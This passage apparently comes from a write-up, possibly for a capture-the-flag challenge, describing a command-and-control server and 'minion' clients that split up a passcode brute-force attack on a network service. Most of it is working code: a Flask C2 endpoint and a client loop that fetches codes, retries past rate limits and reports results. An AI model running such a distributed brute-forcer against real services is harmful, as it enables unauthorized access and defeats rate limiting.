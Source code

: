 ```python
@app.route('/<uuid>/check',methods=['GET'])
def check(uuid):
    global knownMinions
    if uuid in knownMinions.keys():
        return jsonify({"status":"success", "cmd":"getNew"})
    return jsonify({"status":"error","cmd":"die"})
```

### Designing the Minion

[The minion](./minion.py) was essentially a state machine, which was told what to do by the C2. After registering with the C2, the minions would fall into an infinite loop in which they checked for passcodes, tried them, and reported back their findings:

```python
print("Connected! Starting bruteforce...")
while True:
    if res['cmd'] == 'getNew':
        res = getURL(f'/{uuid}/giveCode')
        if res['code']:
            code = res['code']
        else:
            print("Did not receive a code, server may be down.")
            break
    elif res['cmd'] == 'try':
        status = ''
        rateLimited = False
        time.sleep(sleepTime) # 10 seconds
        try: # connect to passcode service
            with socket.socket(socket.AF_INET,socket.SOCK_STREAM) as s:
                s.connect(victim)
                while True:
                    data = s.recv(1024)
                    if b'You are being rate limited' in data:
                        print("Rate limiting caught")
                        rateLimited = True
                        break # try again
                    if b'Enter the passcode to access the secret:' in data:
                        break
                if rateLimited:
                    continue
                s.sendall(code.encode() + b'\n')
                while True:
                    data = s.recv(4096)
                    if b"Closing connection..." in data:
                        break
                s.close()
        except:
            continue
        if b"That password isn't right!" in data:
            status = 'failed'
        else:
            status = 'success'
        print(f"{status}: {code}")
        res = postURL(f"/{uuid}/codeResponse",{'code': code, 'status': status})
    elif res['cmd'] == 'die':
        os.remove(uuidFile)
        print("C&C said to die, goodbye!")
        break
    else: # unknown cmd
        print(f"Received unknown command in {res}")
        break
```
